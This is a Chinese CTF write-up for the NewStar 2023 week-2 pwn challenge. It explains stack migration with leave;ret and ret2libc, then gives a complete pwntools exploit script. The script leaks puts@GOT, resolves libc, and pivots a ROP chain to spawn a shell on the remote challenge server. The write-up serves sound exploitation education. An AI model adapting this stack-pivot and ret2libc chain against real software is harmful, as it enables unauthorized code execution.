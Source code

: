 ```yaml
---
title: newstar2023 week2 - stack migration
date: 2023/10/5 12:00:00
tags:
    - noob
thumbnail: /assets/newstar2023/legend.jpg
excerpt: 通过栈迁移和ret2libc技术利用漏洞，成功执行system函数。
---
```


## 文件分析

下载`-2`(什么魔鬼命名), NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

这道题写明了需要栈迁移：从read的参数可知，我们只能写完`prev_rbp`后只剩8字节  
而当前栈上非常空旷，有0x50个字节可用！

## 前置知识

call的时候，会向栈内压入call下面1条指令，进入函数后，会压入rbp，然后
mov rbp, rsp  
leave执行mov rsp, rbp; pop rbp，ret执行pop rip如下图所示（建议配合exp）  
![legend](/assets/newstar2023/legend.jpg)

由于rbp间接影响返回地址，所以需要运行2次`leave;ret`，这时retAddr就写`leave;ret`的地址

## 思路

将栈迁移过来后，按ret2libc思路做即可

这里使用LibcSearcher，主要是方便本机调试，各位完全可以用提供的libc里的地址

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 25434)

# payload 1
sh.sendlineafter(b'name:', b'0'*7) # 这里不能输8个字符，否则换行符会落到下面导致payload 2发送出现问题
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16 # leak name addr; shift it to $rbp - 0x50

elf = ELF('minus2')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x401333
vulnAddr = 0x4011fb
retAddr = 0x4012ab
leaveRetAddr = 0x4012a9
# print(hex(space)) # for dbg

# payload 2
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))
# note that a \n will be left and we must comment the send below
# payload structure: [buf | space <- payload (0x48B) | prev_rbp | retAddr]

sh.recvuntil(b'soon!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')

# sh.sendlineafter(b'name:', b'0'*5) # affected by the '\n' leftover; the name is '\n'
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16
# print(hex(space)) # for dbg

# payload 3
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
